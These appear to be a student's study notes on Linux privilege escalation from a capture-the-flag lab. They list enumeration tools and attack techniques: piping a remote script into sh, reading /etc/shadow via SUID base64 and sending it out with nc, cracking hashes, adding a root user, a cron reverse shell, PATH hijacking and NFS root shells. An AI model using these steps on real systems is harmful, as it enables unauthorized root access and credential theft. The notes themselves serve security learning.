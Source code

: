 Priv Esc? The exploitation of vulns, design flaws, or configurations in an OS or desktop app to gain unauthorized acces to resources usually restricted from users.
- Reset passwords
- Bypass access control to data
- Edit software configs
- Enable persistent access
- Change user permissions
- Execute admin commands

# Enumeration
[[hostname]]
[[uname]]
[[_proc_version]]
[[_etc_issue]]
[[Linux Terminal/ps]]
[[env]]
[[sudo]]
[[ls]]
[[id]]
[[_etc_passwd]]
[[history]]
[[ifconfig]] + [[ip]]
[[netstat]]
[[Linux Terminal/find]]
[[python]]

# Automated Enumeration
Dependent of environment, ie. Python not available on target system
-   **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
-   **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
-   **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
-   **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
-   **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

# Kernel Exploits
1. Identify kernel version
2. Search for exploit code for the kernel version
3. Configure/run the exploit
Careful, as some exploits can crash the kernel
https://www.linuxkernelcves.com/cves
Ex. 
1. `uname -r`, get kernel version
2. find appropriate CVE and exploit (CVE-2015-1328), and figure out language used
3. get file to remote host, move to a writeable directory
	1. `nc -lvnp PORT < exploit.c` -- `nc IP PORT > exploit.c`
4. follow exploit instructions (compile c and then run w/ `gcc exploit.c -o exploit` -- `./exploit.c`)

# Sudo
run a `sudo -l` to see all commands with delegated sudo privileges
[https://gtfobins.github.io/](https://gtfobins.github.io/) info on how programs with sudo rights can be leveraged

Application Functions ex. Apache server allows for `apache2 -f ...` to specify a config file, this will spit out an error of the first line of a file if its invalid, like /etc/shadow

### LD Preload
1. check for LD_PRELOAD (w/ env_keep option) `env_keep+=LD_PRELOAD`
2. Write C shell code compiled into a share object (.so extension) [[LD_PRELOAD]]
3. Run program with sudo rights and point LD_PRELOAD to the .so file


`sudo nmap --interactive` ?? apparently gives a shell


# SUID
find SUID executable files with `find / -type f -perm 4000 2>/dev/null`   then compare those executables against GTFOBins: https://gtfobins.github.io

ex. no exploit bin available but nano has SUID set
1. nano to copy passwd and shadow files
2. use `unshadow passwd.txt shadow.txt > passwords.txt`
3. upload with a wordlist to John the Ripper
OR
1. Generate a password with [[openssl]] `openssl passwd -1 -salt SALT PASS`
2. using nano, add new user to [[_etc_passwd]] with the password, give root membership
3. `su` to newly created user

Practical ex (given ssh login, low priv): 
0. hardmode it by running nmap, then brute forcing passwords with `hydra` 
1. ssh into karen's account, run `id` to get a sense of privileges
2. Based on the box, I run a `find -perm -4000...` for files that have SUID bit set (could also try `sudo -l` for other commands)
	1. Results are then checked against GTFOBins to look for an exploitable program (use SUID filter)
	2. (optional) overlook options because they don't seem sus
	3. find `base64` on GTFOBins, this will read out any file into base64, also has a --decode option 
3. `base64 /etc/shadow | base64 -d > shadow.txt` to write out, and then decode the shadow file (make sure you're in a writeable dir)
4. `nc ... < shadow.txt` to a listener to transfer files to local machine (send over `/etc/passwd `too) 
5. `unshadow PASSWD SHADOW` to get files into a format for John da Ripper to read
6. `john COMBINED_FILE` then spits out any found hashes (can also specify `--wordlist`, but the default works here)


# Capabilities
use `getcap / -r 2>/dev/null` to get a list of programs with a capabilities set. A capability being a delegated function of a binary / process that doesn't need to ask for a higher privilege user. 
Reference these results against GTFOBins to find attack vectors
ex. 
using a Vim `cap_setuid+ep` capability we can set our UID to root with the script listed on GTFOBins

  
# Cron Jobs
Scripts / binaries can be scheduled to run at specified times, they will run with privileges of owner (hopefully root), not of the current user
Stored in: `/etc/crontabs`
Often admins will create a cronjob for a script, eventually delete it, but never remove the cronjob, allowing us to create a custom script in its absence
Example:
1. `cat /etc/crontabs` to see potential cron jobs
2. 4 jobs are built to run every minute, 3 bash, 1 python
	-  Went down a rabbit hole trying to get a bash shell to work through the .sh files
3. find out which files might be accessible/writable, and see that the `test.py` script is non-existent
4. Create a `/tmp/test.py` script with python reverse shell from github [[Payloads]]
	 -  run into a bunch of issues getting it to run. Try debugging by check `which` on program calls needed, run the same command from terminal and see if it connects (to a listener), then try running the script with the current user and see if it connects
5. Run a listener and wait for the connection


# PATH
$PATH is an environment variable that tells Linux where to search for executables that are not built into the shell or defined with an absolute path.
`echo $PATH`  
- Look for write privileges to folders in $PATH
- is $PATH itself modifiable?
- are there existing scripts that can be leveraged to run a binary?
Example:
1. I search the system `find -perm -4000 ...` for any files that have a SUID bit set. I see `/home/murdoch`, which is also a writable directory 
2. In there we find a compiled file `test` and its originating, uncompiled version `thm.py`. With `cat thm.py` we see that it's trying to run a command called 'thm'.
3. I add this writable dir to the $PATH with `export PATH=$PATH=/home/murdoch`
4. In the same dir, (since its writable and now in PATH) I add a bash script named `thm` that cat's the flag file and `chmod 777 thm`.
5. I run the `test` file which has SUID bit set, and it accesses my injected `thm` command, now running as root and am able to cat the flag

  
# NFS
Network File Sharing config is viewable in `/etc/exports`. Often share folders and remote management tools like SSH and Telnet can be leveraged for root.
(by default NFS will strip all permissions on files and drop user to "nfsnobody")  
`cat /etc/exports` if the `no_root_squash` option is added on a writable share, then we can create an executable with SUID set.
`showmount -e TARGET` to list share folders on the target (from local)
`mount -o rw TARGET:/SHARE_DIR /MY_DIR` to copy over the share to local
Example:
1. search system for exportable shares with `cat /etc/exports`   
2. Notice that they all have `no_root_squash` set. Look into each to find which is executable from, tried /tmp as this is usually an accessible dir, which proved right
3. back on local `showmount` and then create a `/tmp/backups` dir to copy over the share with `mount -o rw TARGET:/tmp /tmp/backups`
4. Create a executable here that sets as root and opens a shell, (see [[gcc]]) then `gcc test.c -o test -w`
5. `chmod 4700 test` to grant it SUID bit so that any user can run it on the target system
6. See that the file has been copied over to target, run it as normal user, then get root shell :)


# Capstone
1. No obvious exploits for kernel version (`uname -a` + web search), no Cron Job(`/etc/crontab`), no NFS (`/etc/exports`), nothing apparent in PATH (did search these for a bit, but should've just ran a SUID search first to avoid the rabbit hole), and no sudo on user `leonard`.
2. `bash -li` and saw there was history, got a clue from this seeing as user `missy` was accessed recently
3. ran a `find -perm -4000` and saw SUID was set on Base64 (again)
4. used `base64` to read and send `/etc/shadow` to my local with nc, along with `/etc/passwd`. Fed to Johnny who got me the password for missy
5. got the first flag from missy `/home/Documents` directory
	-  also skipped part 2 by just base64'ing out flag2.txt from `/home/rootflag.txt`
6. ran a `sudo -l` for missy and saw she had sudo on `find`
7. compared this to GTFOBins which gave a script to get root shell through` find`
8. activated root shell and ran a find on `flag2.txt`, got flag